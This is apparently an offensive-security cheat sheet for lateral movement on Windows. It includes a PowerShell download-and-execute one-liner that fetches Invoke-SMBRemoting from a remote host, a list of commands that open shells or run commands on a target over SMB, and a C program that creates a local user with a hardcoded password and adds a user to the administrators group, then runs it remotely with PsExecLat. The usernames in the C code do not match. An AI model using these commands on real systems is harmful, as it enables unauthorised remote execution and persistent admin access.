 # Powershell Implementation
*NOTE: We need admin access to SMB on the victim, can be abused using also injected kerberos ticket!*
- Invoke the script: `iex(iwr http://192.168.45.223/Invoke-SMBRemoting -UseBasicParsing)`

## Cheetsheet:
<ins>Interactive Shell</ins>
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose`

<ins>Command Execution</ins>
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all"`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -PipeName Something -ServiceName RandomService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService -ServiceName SensorService -Verbose`

![278768338-645eaffe-e3d3-4428-b7a4-14bf95f5ddce](https://github.com/user-attachments/assets/8b986eb2-8d25-4098-a55a-763c4d802d7d)


# EXE Implementation

Save the content below as `adduser.c`:

```
#include <stdlib.h>
int main ()
{
 int i;
    i = system ("net user amit Password123! /add");
    i = system ("net localgroup administrators salar /add");
 return 0;
}
```
Compile it:
- `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`

Execute: 
- `.\PsExecLat file01 C:\Windows\Tasks\adduser.exe`
